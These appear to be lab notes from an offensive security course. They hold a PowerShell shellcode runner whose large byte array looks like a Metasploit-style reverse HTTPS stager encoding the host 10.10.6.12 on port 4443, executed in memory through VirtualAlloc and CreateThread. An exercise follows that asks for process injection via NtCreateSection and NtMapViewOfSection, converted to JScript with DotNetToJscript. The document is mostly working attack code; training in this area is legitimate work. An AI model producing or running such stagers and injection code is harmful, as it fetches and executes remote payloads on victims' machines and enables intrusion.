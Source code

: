 ```ps1
[Byte[]] $OgJxdhLHmMl = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x41,0x51,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x44,0x8b,0x40,0x20,0x8b,0x48,0x18,0x50,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xb,0x0,0x0,0x0,0x31,0x30,0x2e,0x31,0x30,0x2e,0x36,0x2e,0x31,0x32,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x5b,0x11,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xc5,0x0,0x0,0x0,0x2f,0x45,0x6e,0x61,0x52,0x69,0x4d,0x53,0x72,0x73,0x6b,0x62,0x6c,0x55,0x4f,0x52,0x53,0x68,0x35,0x38,0x43,0x5f,0x77,0x6e,0x32,0x33,0x72,0x34,0x79,0x72,0x71,0x35,0x68,0x53,0x5f,0x33,0x55,0x4d,0x4b,0x76,0x47,0x5a,0x4d,0x37,0x42,0x4b,0x6d,0x35,0x4d,0x68,0x78,0x65,0x4e,0x53,0x4f,0x51,0x56,0x64,0x70,0x6e,0x42,0x5f,0x61,0x56,0x4e,0x44,0x67,0x7a,0x33,0x4c,0x71,0x35,0x62,0x6b,0x32,0x71,0x36,0x31,0x44,0x45,0x47,0x46,0x70,0x52,0x32,0x6c,0x48,0x43,0x76,0x59,0x6d,0x4b,0x76,0x46,0x63,0x5f,0x6e,0x59,0x51,0x4e,0x43,0x75,0x77,0x69,0x51,0x46,0x32,0x61,0x65,0x69,0x69,0x59,0x38,0x79,0x43,0x78,0x2d,0x39,0x72,0x4a,0x6f,0x54,0x4d,0x54,0x44,0x44,0x5f,0x54,0x7a,0x67,0x49,0x4c,0x59,0x49,0x67,0x34,0x4c,0x37,0x4b,0x6e,0x4b,0x62,0x35,0x49,0x4d,0x42,0x78,0x4a,0x63,0x58,0x57,0x2d,0x33,0x77,0x56,0x43,0x56,0x38,0x30,0x68,0x70,0x33,0x53,0x45,0x49,0x4e,0x31,0x4b,0x6a,0x47,0x64,0x45,0x45,0x55,0x79,0x54,0x33,0x5a,0x79,0x4f,0x55,0x47,0x6d,0x64,0x55,0x34,0x70,0x33,0x34,0x30,0x63,0x61,0x4f,0x6e,0x30,0x48,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$dQNOxwzloVP = $nFHoxupEYPGPRa::VirtualAlloc(0,[Math]::Max($OgJxdhLHmMl.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($OgJxdhLHmMl,0,$dQNOxwzloVP,$OgJxdhLHmMl.Length)

$nFHoxupEYPGPRa::CreateThread(0,0,$dQNOxwzloVP,0,0,0)

```


### 5.1.2.2 Extra Mile

Process injection with VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread is 
considered a standard technique, but there are a few others to consider.
The low-level native APIs NtCreateSection, NtMapViewOfSection, NtUnMapViewOfSection, and 
NtClose in ntdll.dll can be used as alternatives to VirtualAllocEx and WriteProcessMemory.
Create C# code that performs process injection using the four new APIs instead of VirtualAllocEx
and WriteProcessMemory. Convert the code to Jscript with DotNetToJscript. Note that 
CreateRemoteThread must still be used to execute the shellcode
